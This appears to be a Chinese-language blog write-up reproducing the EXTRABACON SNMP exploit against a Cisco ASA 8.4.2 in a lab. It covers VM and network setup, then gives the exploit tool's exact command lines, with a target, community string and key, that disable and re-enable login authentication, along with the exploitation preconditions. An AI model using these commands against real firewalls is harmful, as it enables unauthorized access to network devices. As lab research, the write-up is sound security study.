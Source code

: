```yaml
---
layout:     post
title:      Cisco SNMP RCE漏洞复现
author:     wooy0ung
tags: 		cisco
category:  	exploit
---
```



>利用环境:
>攻击机：192.168.2.63		Mac OSX 10.12.5  
>靶机：192.168.2.10		Cisco ASA 8.42  
>主机: 192.168.2.142		Windows 10 Pro  
>利用脚本：\eqgrp-free-file\Firewall\EXPLOITS\EXBA\extrabacon_1.1.0.1.py  
<!-- more -->


### 0x00 启动ASA虚拟机

VMware Workstation导入ASA-8.4.2虚拟机，修改虚拟网络编辑器桥接物理网卡，虚拟机网络设置桥接物理网络。

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x00.png)


![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x01.png)


串行端口的命名管道修改为\\.\pipe\asa_com

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x02.png)

安装named pipe tcp proxy，按下图配置

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x03.png)

安装SecureCRT，新建Session

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x04.png)

打开ASA虚拟机电源，登入系统(用户名：netemu 密码：netemu)
```
ciscoasa> en
password:******
ciscoasa# show run
```
![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x05.png)


### 0x01 配置ASA网络设置

配置网卡、IP

```
ciscoasa# configure terminal
ciscoasa(config)# interface GigabitEthernet0
ciscoasa(config-if)# ip address 192.168.2.10 255.255.255.0	# 配置该网卡IP为192.168.2.10
ciscoasa(config-if)# no shut
ciscoasa(config-if)# nameif inside
```

配置http/https管理方式

```
ciscoasa# configure terminal 
ciscoasa(config)# http server enable 
ciscoasa(config)# http 192.168.2.0 255.255.255.0 inside
```

使用浏览器访问https://192.168.2.10，在弹出页面安装ASDM，登入ASDM(用户名：netemu 密码：netemu)

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x06.png)

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x07.png)

ssh管理配置

```
ciscoasa# configure terminal 
ciscoasa(config)# crypto key generate rsa modulus 1024
INFO: The name for the keys will be: <Default-RSA-Key>
Keypair generation process begin. Please wait...
ciscoasa(config)# write memory
ciscoasa(config)# ssh 192.168.2.10 255.255.255.0 inside
ciscoasa(config)# aaa authentication ssh console LOCAL
```

telnet管理配置
```
ciscoasa# configure terminal 
ciscoasa(config)# telnet 192.168.2.10 255.255.255.0 inside
```

开启snmp-server
```
ciscoasa# configure terminal 
ciscoasa(config)# snmp-server host inside 192.168.2.20 community public
```


### 0x02 测试链路连接

确认主机到ASA链路正常

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x08.png)

确认主机到攻击机正常

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x09.png)

确认攻击机到ASA正常

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0a.png)

确认ASA到攻击机正常

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0b.png)

确认能通过ssh管理ASA
![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0c.png)


### 0x03 漏洞复现

ASA信息搜集，得到系统版本号、登陆名
```
python extrabacon_1.1.0.1.py info -t 192.168.2.10 -c public
```

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0d.png)

ASA版本号是8.42，存在漏洞，下面disable登入密码

```
python extrabacon_1.1.0.1.py exec -k vZwDQA -t 192.168.2.10 -c public --mode pass-disable
```

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0e.png)

成功登入系统(登陆名：ciscoasa)

```
ssh -p22 -o KexAlgorithms=+diffie-hellman-group1-sha1 ciscoasa@192.168.2.10
```

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x0f.png)

enable登入密码，已登陆状态能够保持，新机器登陆再次需要密码

```
python extrabacon_1.1.0.1.py exec -k vZwDQA -t 192.168.2.10 -c public --mode pass-enable
```

![](/assets/img/exploit/2017-06-15-cisco-snmp-rce/0x10.png)


### 0x04 漏洞利用条件

1.目标防火墙开启22(ssh)或23(telnet)管理方式

2.目标配置了snmp服务。并且snmp配置中的Host Access Entry IP地址和Community字符串能够获得或者已知。

3.目标版本在8.X-8.4.4之间。
